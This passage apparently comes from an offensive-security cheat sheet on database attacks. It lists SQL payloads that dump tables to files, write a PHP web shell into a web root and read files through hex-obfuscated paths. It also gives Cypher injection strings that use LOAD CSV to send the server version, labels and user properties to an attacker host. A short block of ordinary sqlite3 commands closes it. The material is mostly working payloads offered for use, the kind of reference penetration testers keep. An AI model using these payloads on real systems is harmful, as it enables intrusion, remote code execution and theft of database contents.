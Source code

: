 ### Dump to File

```c
SELECT ## FROM <TABLE> INTO dumpfile '/PATH/TO/FILE'
```

### Dump PHP Shell

```c
SELECT 'system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'
```

### Read File Obfuscation

```c
SELECT LOAD_FILE(0x633A5C626F6F742E696E69)    // reads C:\boot.ini
```

### Cipher Injection

#### Check Server Version

```c
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions
as version LOAD CSV FROM 'http://<LHOST>/?version=' + version + '&name=' + name + '&edition=' + edition as
l RETURN 0 as _0 //
```

#### Get Label

```c
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://<LHOST>/?label='+label as
l RETURN 0 as _0 //
```

#### Get Key Properties

```c
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://<LHOST>/?' + p
+'='+toString(f[p]) as l RETURN 0 as _0 //
```



## sqlite3

```c
$ sqlite3 <FILE>.db
```

### Common Commands

```c
sqlite> .tables
sqlite> PRAGMA table_info(<TABLE>);
sqlite> SELECT * FROM <TABLE>;
```
